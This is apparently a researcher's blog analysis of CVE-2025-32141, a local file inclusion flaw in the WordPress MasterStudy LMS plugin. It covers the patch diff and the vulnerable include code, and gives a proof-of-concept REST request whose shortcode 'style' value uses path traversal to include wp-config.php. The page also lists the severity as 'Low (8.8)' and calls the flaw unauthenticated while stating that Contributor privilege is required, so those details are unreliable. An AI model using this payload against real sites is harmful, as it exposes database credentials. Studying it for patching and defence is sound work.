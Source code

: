 # CVE-2025-32141 Analysis & POC


<!--more-->

## CVE & Basic Info

The **MasterStudy LMS** plugin version **≤ 3.5.28** contains a **Local File Inclusion (LFI)** vulnerability that allows an unauthenticated attacker to control the file parameter in the `include/require` statement, enabling the inclusion or reading of local files on the server (e.g., configuration files containing credentials). This can lead to sensitive information disclosure and, in certain configurations, remote code execution.

* **CVE ID**: [CVE-2025-32141](https://www.cve.org/CVERecord?id=CVE-2025-32141)
* **Vulnerability Type**: Local File Inclusion
* **Affected Versions**: <= 3.5.28
* **Patched Versions**: 3.5.29
* **CVSS severity**: Low (8.8)
* **Required Privilege**: Contributor
* **Product**: [WordPress MasterStudy LMS Plugin](https://wordpress.org/plugins/masterstudy-lms-learning-management-system/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **MasterStudy LMS**: **3.5.28** (vulnerable) and **3.5.29** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff tool to compare the two versions.

## Analysis

### Patch diff

**Vulnerable Version**:

```php {filename="stm_lms_courses_categories.php v3.5.28" hl_lines=[7,12]}
<?php
add_shortcode( 'stm_lms_courses_categories', 'stm_lms_courses_categories_shortcode' );
function stm_lms_courses_categories_shortcode( $atts ) {
    $atts = shortcode_atts(
        array(
            'taxonomy' => '',
            'style'    => 'style_1',
        ),
        $atts
    );
    ob_start();
    STM_LMS_Templates::stm_lms_load_vc_element( 'courses_categories', $atts, $atts['style'] );
    return ob_get_clean();
}
```

In the vulnerable version, the shortcode callback `stm_lms_courses_categories` directly passes the `style` value from `$atts` into `STM_LMS_Templates::stm_lms_load_vc_element()` without sanitization or validation — leading to a potential LFI.

**Patched Version**:

```php {filename="stm_lms_courses_categories.php v3.5.29" hl_lines=[7,12,14]}
<?php
add_shortcode( 'stm_lms_courses_categories', 'stm_lms_courses_categories_shortcode' );
function stm_lms_courses_categories_shortcode( $atts, $content = null, $tag = '' ) {
	$atts = shortcode_atts(
		array(
			'taxonomy' => '',
			'style'    => 'style_1',
		),
		$atts,
		$tag
	);
	$atts['style'] = basename( sanitize_file_name( $atts['style'] ) );
	ob_start();
	STM_LMS_Templates::stm_lms_load_vc_element( 'courses_categories', $atts, $atts['style'] );
	return ob_get_clean();
}
```

The patch sanitizes `$atts['style']` using [`sanitize_file_name()`](https://developer.wordpress.org/reference/functions/sanitize_file_name/), removing unsafe characters and preventing LFI.

### Vulnerable Code

```php {filename="templates.php v3.5.28" hl_lines=[3,7,8]}
public static function stm_lms_load_vc_element( $__template, $__vars = array(), $__template_name = '', $custom_path = '' ) {
    extract( $__vars ); // phpcs:ignore WordPress.PHP.DontExtract
    $element = self::stm_lms_locate_vc_element( $__template, $__template_name, $custom_path );
    if ( ! file_exists( $element ) && strpos( $__template_name, 'style_' ) !== false ) {
        $element = str_replace( $__template_name, 'style_1', $element );
    }
    if ( file_exists( $element ) ) {
        include $element;
    } else {
        echo esc_html__( 'Element not found in', 'masterstudy-lms-learning-management-system' );
        echo esc_html( ' ' . $element );
    }
}
```

The `include()` statement uses `$element` returned from `stm_lms_locate_vc_element()`, which is influenced by `$__template_name` (the `style` parameter from the shortcode). Without validation, an attacker can manipulate it to include arbitrary files, leading to LFI.

```php {filename="templates.php v3.5.28" hl_lines=[3,7,8]}
public static function stm_lms_locate_vc_element( $templates, $template_name = '', $custom_path = '' ) {
    $located = false;

    foreach ( (array) $templates as $template ) {

        $folder = $template;

        if ( ! empty( $template_name ) ) {
            $template = $template_name;
        }

        if ( substr( $template, -4 ) !== '.php' ) {
            $template .= '.php';
        }

        if ( empty( $custom_path ) ) {
            $located = locate_template( 'partials/vc_parts/' . $folder . '/' . $template );
            if ( ! ( $located ) ) {
                $located = STM_LMS_PATH . '/includes/shortcodes/partials/' . $folder . '/' . $template;
            }
        } else {
            $located = locate_template( $custom_path );
            if ( ! ( $located ) ) {
                $located = STM_LMS_PATH . '/' . $custom_path . '.php';
            }
        }

        if ( file_exists( $template_name ) ) {
            break;
        }
    }

    return apply_filters( 'stm_lms_locate_vc_element', $located, $templates );
}
```

The `stm_lms_locate_vc_element()` function determines and returns the path of the template file (`.php`).

If `$template_name` is provided, it **overrides the default template name** and ensures it ends with `.php`. The resulting file path becomes `STM_LMS_PATH/includes/shortcodes/partials/{folder}/{template}.php`.

For example, with `style=payload`, it returns:

```py
/srv/www/wordpress/wp-content/plugins/masterstudy-lms-learning-management-system/_core/includes/shortcodes/partials/courses_categories/payload.php
```

## Exploit

### Proof of Concept (PoC)

Create a post with a shortcode that includes an LFI payload in the `style` attribute:

```http {hl_lines=[4]}
POST /wp-json/wp/v2/posts/260?_locale=user HTTP/1.1
Host: localhost

{"id":260,"content":"<!-- wp:shortcode -->\n[stm_lms_courses_categories taxonomy=x style=../../../../../../../../wp-config]\n<!-- /wp:shortcode -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->"}
```

**Result**:

The debugger hits `wp-config.php`.

![](result.png "Successful LFI result")

## Conclusion

Versions **≤ 3.5.28** of MasterStudy LMS are vulnerable to LFI via the `style` parameter in the shortcode due to unsanitized input used in an `include` statement. The patch in **3.5.29** sanitizes this input using `sanitize_file_name()` and `basename()`, preventing unauthorized file access.

## Key takeaways

* Never concatenate user input directly into file paths.
* Always sanitize or whitelist values before using them in `include` or `require`.
* Validate the resolved path to ensure it stays within the intended directory.
* Update to **v3.5.29** to eliminate this LFI vulnerability.

## References

[File Inclusion/Path traversal — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#lfi--rfi-using-php-wrappers--protocols)

[WordPress MasterStudy LMS Plugin <= 3.5.28 is vulnerable to Local File Inclusion](https://patchstack.com/database/wordpress/plugin/masterstudy-lms-learning-management-system/vulnerability/wordpress-masterstudy-lms-plugin-3-5-23-local-file-inclusion-vulnerability?_s_id=cve)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-10-21-cve-2025-32141/  

